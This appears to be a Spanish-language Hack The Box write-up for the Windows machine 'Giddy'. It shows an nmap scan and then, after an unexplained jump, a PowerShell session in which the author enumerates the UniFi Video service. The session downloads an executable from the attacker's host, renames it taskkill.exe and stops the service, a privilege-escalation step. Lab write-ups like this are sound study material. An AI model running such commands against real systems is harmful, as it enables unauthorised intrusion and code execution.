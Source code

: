 ```yaml
---
title: "HTB write-up: Giddy"
date: 2019-02-16T08:47:00-06:00
tags: ["hackthebox","htb","boot2root","pentesting","windows"]
categories: ["htb","pentesting"]
draft: false

---
```

Me gustan estas maquinas, porque no sabes nunca lo que podrás aprender o con cuantas paredes te vas a topar. Aprendí sobre como pasar la hash desde mssql, como ejecutar remotamente powershell y finalmente que a veces es mas fácil compilar y ejecutar que esperar soluciones mágicas. 


# Machine info

La información que tenemos de la máquina es:

Name  | Maker     | OS      | IP Address
---   | ---       | ---     | ---
Giddy | lkys37en  | Windows | 10.10.10.104

Su tarjeta de presentación es:

![Card Info](/img/htb-giddy/cardinfo.png)

# Port Scanning

Comenzamos por realizar un escaneo de puertos usando nuestra herramienta nmap, pero luego vemos que tardaría bastante porque empezó a tener muchos drops:

``` text
root@laptop:~# nmap -sS -p- -n --open -v 10.10.10.104
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-15 08:55 CST
Initiating Ping Scan at 08:55
Scanning 10.10.10.104 [4 ports]
Completed Ping Scan at 08:55, 0.44s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 08:55
Scanning 10.10.10.104 [65535 ports]
Discovered open port 3389/tcp on 10.10.10.104
Discovered open port 80/tcp on 10.10.10.104
Discovered open port 443/tcp on 10.10.10.104
SYN Stealth Scan Timing: About 2.51% done; ETC: 09:15 (0:20:05 remaining)
SYN Stealth Scan Timing: About 3.89% done; ETC: 09:21 (0:25:08 remaining)
SYN Stealth Scan Timing: About 6.19% done; ETC: 09:19 (0:22:59 remaining)
SYN Stealth Scan Timing: About 8.71% done; ETC: 09:21 (0:24:17 remaining)
Increasing send delay for 10.10.10.104 from 0 to 5 due to 40 out of 133 dropped probes since last increase.
Increasing send delay for 10.10.10.104 from 5 to 10 due to 11 out of 22 dropped probes since last increase.
SYN Stealth Scan Timing: About 8.90% done; ETC: 09:26 (0:28:50 remaining)
Increasing send delay for 10.10.10.104 from 10 to 20 due to 11 out of 23 dropped probes since last increase.
SYN Stealth Scan Timing: About 9.28% done; ETC: 09:30 (0:32:25 remaining)
Increasing send delay for 10.10.10.104 from 20 to 40 due to 11 out of 22 dropped probes since last increase.
```


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService